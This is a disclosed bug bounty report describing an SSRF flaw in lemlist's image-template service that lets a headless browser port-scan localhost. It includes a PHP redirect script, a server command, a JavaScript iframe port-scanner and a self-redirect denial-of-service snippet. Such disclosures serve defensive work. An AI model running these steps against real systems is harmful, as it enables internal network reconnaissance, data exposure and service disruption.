 # SSRF in img.lemlist.com that leads to Localhost Port Scanning

## Report Details
- **Report ID**: 783392
- **URL**: https://hackerone.com/reports/783392
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-26T00:06:09.103Z
- **Disclosed**: 2020-05-28T10:39:49.300Z

## Reporter
- **Username**: arsene_lupin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lemlist

## Vulnerability Information
## Summary:
A SSRF attack can be performed leading to localhost port scanning.
Link : https://img.lemlist.com/api/image-templates/itp_vBBNpQuMsy6FYLQAc/?preview=true&email=email@

## Steps To Reproduce:
To perform this port scan you'll need to setup a few files.

First of all you need to change the url in {F696241}. {F696243}

That being done you will need to do the same thing in your redirection script
```php
<?php
	// PHP permanent URL redirection
	header("Location: [YOUR WEBSITE]/PoC.html?i=0", true, 301);
	exit();
?>
```

Now you need to setup a website who will host {F696241}, {F696249} and the redirection.

I suggest to put everything in a single file and run the command :
`php -S 0.0.0.0:80`

Afterward you need to go to the following link:
`https://img.lemlist.com/api/image-templates/itp_vBBNpQuMsy6FYLQAc/?preview=true&email=email@ [YOUR WEBSITE]`

## PoC
Here is a PoC of the Port Scan beeing performed {F696236}

## Advice

Sometimes this port scan only return one port or none due to headless chrome screenshoting the website before the redirection. I would suggest to try different timeout in the ` scanChromeLinux()` function.

```javascript
async scanChromeLinux(iframe, a) {
    var that = this;
    let promise = new Promise(function(resolve, reject){
        that.hooks = {oncomplete:function(){
          document.body.removeChild(iframe);
          resolve();
        }};
        that.scan = function() {
            var port = that.q.shift(), calls = 0, timer;
            iframe.src = that.url + ":" + port;
            a.href = iframe.src + '#';
            that.updateProgress(port);
            iframe.hasLoadedOnce = 0;
            iframe.onload = function(){
                calls++;
                if(calls > 1) {
                  clearTimeout(timer);
                  that.next();
                  return;
                }
                iframe.hasLoadedOnce = 1;
                a.click();
            };
            timer = setTimeout(function(){
              if(iframe.hasLoadedOnce) {
                that.openPorts.push(port);
              }
              that.next();
            }, 500 ); // <-- CHANGE THAT VALUE
        };
        that.scan();
    });
    return promise;
  }
```

##Bonus

You can perform a DOS on the website by making the redirection returning itself: 
```php
<?php
	// PHP permanent URL redirection
	header("Location:https://img.lemlist.com/api/image-templates/itp_vBBNpQuMsy6FYLQAc/?preview=true&email=email@[YOUR WEBSITE]", true, 301);
	exit();
?>
```

## Impact

We can Port Scan local and remote servers, directory and bruteforce HTTP services.
Besides if the screenshot as enough quality, it would be possible to return sensitives data from local HTTP services running on the machine.

## Attachments
- PoC.mp4
- PoC.html
- changeline.png
- stealer.php
